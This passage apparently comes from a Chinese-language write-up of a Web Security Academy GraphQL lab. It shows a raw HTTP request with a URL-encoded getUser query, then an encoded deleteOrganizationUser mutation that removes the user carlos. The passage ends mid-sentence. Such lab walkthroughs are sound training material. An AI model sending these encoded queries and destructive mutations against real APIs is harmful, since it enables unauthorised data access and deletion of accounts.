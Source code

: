 id 为 3 时用户为 carlos

```plain
GET /api?query=%71%75%65%72%79%20%7b%0a%20%20%20%20%67%65%74%55%73%65%72%28%69%64%3a%20%33%29%20%7b%0a%20%20%20%20%20%20%20%20%69%64%0a%20%20%20%20%20%20%20%20%75%73%65%72%6e%61%6d%65%0a%20%20%20%20%7d%0a%7d HTTP/1.1
Host: 0afd00740480738384c5fe6e000400e8.web-security-academy.net
Cookie: session=Y9LKsJElXvfb0KwEWslV81d8JZACigJx
Sec-Ch-Ua: "Not A(Brand";v="99", "Google Chrome";v="121", "Chromium";v="121"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0afd00740480738384c5fe6e000400e8.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
```

[![](assets/1708485015-17441a33ee3422632a0274026f99d841.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220152331-f318bbe4-cfc0-1.png)

随后调用接口进行删除用户的操作

```plain
%6d%75%74%61%74%69%6f%6e%20%7b%0a%20%20%20%20%64%65%6c%65%74%65%4f%72%67%61%6e%69%7a%61%74%69%6f%6e%55%73%65%72%28%69%6e%70%75%74%3a%20%7b%69%64%3a%33%7d%29%20%7b%0a%20%20%20%20%20%20%20%20%75%73%65%72%20%7b%0a%20%20%20%20%20%20%20%20%20%20%20%20%69%64%0a%20%20%20%20%20%20%20%20%7d%0a%20%20%20%20%7d%0a%7d
```

[![](assets/1708485015-ab9a3e406e765a2eb4f515a2e40b3577.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220152400-046dcb8c-cfc1-1.png)  
此时进行查询操作会显示如下信息：  